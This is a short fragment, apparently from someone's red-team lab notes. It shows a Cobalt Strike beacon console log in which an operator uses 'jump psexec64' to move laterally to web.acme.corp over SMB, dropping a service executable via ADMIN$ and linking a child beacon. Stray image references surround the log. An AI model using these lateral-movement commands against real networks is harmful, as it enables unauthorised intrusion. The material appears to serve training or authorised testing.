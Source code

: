 ```powershell
[02/16 21:58:20] beacon> jump psexec64 web.acme.corp smb
[02/16 21:58:21] [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-1337bugsinhere) on web.acme.corp via Service Control Manager (\\web.acme.corp\ADMIN$\d0582bd.exe)
[02/16 21:58:27] [+] host called home, sent: 354651 bytes
[02/16 21:59:01] [+] received output:
Started service d0582bd on web.acme.corp
[02/16 21:59:01] [+] established link to child beacon: 10.10.120.20
```
![[Pasted image 20240216170040.png]]
![[Pasted image 20240216170931.png]]